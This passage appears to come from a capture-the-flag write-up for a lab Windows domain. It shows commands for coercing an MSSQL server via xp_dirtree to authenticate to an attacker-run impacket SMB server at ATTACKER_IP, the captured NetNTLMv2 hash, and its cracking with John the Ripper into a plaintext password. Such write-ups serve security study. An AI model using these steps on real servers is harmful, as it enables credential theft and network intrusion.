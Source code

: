 Another attack method is NTLM Realy attack. We need smbserver for this, we can use _impacket-smbserver_

```
#Run this command on attackers machine to start listening smb connections
impacket-smbserver fakesharename ./fakesharepath -smb2support

#Run this command on msqql server and smbserver will catch the NTLM hash
xp_dirtree '\\ATTACKER_IP\fakesharename'

```

![smbserver ntlm](../../assets/blog/images/escape/xp_dirtree.png)

```
# smbserver output

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Config file parsed
[*] Incoming connection (10.10.11.202,61864)
[*] AUTHENTICATE_MESSAGE (sequel\sql_svc,DC)
[*] User DC\sql_svc authenticated successfully
[*] sql_svc::sequel:aaaaaaaaaaaaaaaa:53e34c347af2c07f5413cc042237290b:01010000000000008017c5fb1c64d901b0f15ff7d02f8e71000000000100100063007300610050005500580053006f000300100063007300610050005500580053006f000200100045004e00710073006f0061007a0077000400100045004e00710073006f0061007a007700070008008017c5fb1c64d90106000400020000000800300030000000000000000000000000300000aae750a18cfe418e6ca2fb4ae1e318ae2ab070db86a852b81988d8ef0b04d08e0a0010000000000000000000000000000000000009001e0063006900660073002f00310030002e00310030002e00310035002e0039000000000000000000
[*] Closing down connection (10.10.11.202,61864)
[*] Remaining connections []
```

JohnTheRipper crack the hash so easily using _rockyou_ wordlist

```
john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt

Using default input encoding: UTF-8
Loaded 1 password hash (netntlmv2, NTLMv2 C/R [MD4 HMAC-MD5 32/64])
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
0g 0:00:00:05 32.04% (ETA: 02:12:34) 0g/s 948633p/s 948633c/s 948633C/s peawee2..peachesca
REGGIE1234ronnie (sql_svc)
1g 0:00:00:11 DONE (2023-04-01 02:12) 0.08517g/s 911656p/s 911656c/s 911656C/s RENZOJAVIER..RBDesloMEJOR
Use the "--show --format=netntlmv2" options to display all of the cracked passwords reliably
Session completed
```
